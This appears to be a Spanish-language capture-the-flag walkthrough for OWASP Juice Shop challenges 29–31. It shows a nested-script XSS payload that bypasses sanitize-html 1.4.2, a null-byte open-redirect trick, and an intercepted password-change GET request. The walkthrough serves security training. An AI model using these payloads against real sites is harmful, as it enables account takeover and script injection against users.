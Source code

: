 #### **29: "XSS Nivel 4: Realizar un ataque XSS persistente eludiendo un mecanismo de seguridad del servidor."**

* Primero resuelve el desafío 24.

Veamos qué implementó el desarrollador en el lado del servidor: `"sanitize-html": "1.4.2"`.
Existe un problema porque la sanitización no se aplica de manera recursiva, por lo que si insertamos un script dentro de otro script, solo el script externo será sanitizado, mientras que el interno seguirá ejecutándose.  

```html
<script>alert("XSS4")</script>
```

Colocaremos la misma cadena después del primer `<` y la `s`, de modo que se vea así:  

```html
<<script>alert("XSS4")</script>script>alert("XSS4")</script>
```

Además, necesitamos otra etiqueta de cierre `</script>` antes de la última etiqueta `</script>` para que se ejecute:  

```html
<<script>alert("XSS4")</script>script>alert("XSS4")<</script>/script>
```

Puedes publicar esto en "Contáctanos" para resolver el desafío.

---

#### **30: "A donde sea que vayas, ahí estarás."**

* No es necesario resolver ningún desafío previo.

La cinta en la esquina superior derecha "Fork me on Github" contiene el enlace `/redirect?to=https://github.com/bkimminich/juice-shop`.  
Como siempre, cuando manipulamos URLs, debemos probar con null-bytes `%00`.  

Al visitar:  

```
/redirect?to=/%00https://github.com/bkimminich/juice-shop
```

Le proporcionamos al redireccionamiento un destino válido (`https://github.com/bkimminich/juice-shop`), pero evitamos que realmente nos lleve allí.

---

#### **31: "Cambia la contraseña de Bender a slurmCl4ssic."**

* Primero resuelve el desafío 15.  
* Debes estar autenticado como Bender.

Al cambiar la contraseña, podemos interceptar un paquete con una solicitud `GET` como esta:  

```
GET /rest/user/change-password?current=idontknow&new=slurmCl4ssic&repeat=slurmCl4ssic
```
